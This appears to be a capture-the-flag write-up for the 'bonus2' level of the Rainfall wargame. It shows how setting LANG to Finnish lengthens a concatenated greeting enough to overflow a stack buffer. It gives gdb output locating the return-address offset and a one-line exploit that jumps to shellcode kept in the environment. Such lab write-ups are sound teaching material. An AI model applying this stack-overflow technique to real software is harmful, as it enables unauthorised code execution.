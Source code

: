 # Rainfall - Bonus 2

## Executable Analyse

The program searches for a language parameter using `getenv("LANG")`.  

There are three different languages to say *hello* in 3 different ways.  

The program concatenates the hello translation with the two character strings gives as arguments.

Using the longest hello we can overflow.

## Language overflow

The longest hello is in Finnish, you can change the language in the environment :  
```bash
export LANG="fi"
```

We can use gdb to find the EIP overflow address :  
```
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A Aa0Aa1Aa2Aa3Aa4Aa5ABCD 
Starting program: /home/user/bonus2/bonus2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A Aa0Aa1Aa2Aa3Aa4Aa5ABCD

Hyvää päivää Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAa0Aa1Aa2Aa3Aa4Aa5ABCD

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```

The same way we did bonus0 exercice we can use the shellcode in environnement at `0xbffff8f1` to get the flag :  

```bash
./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a" * 18 + "\xbf\xff\xf8\xf1"[::-1]')
```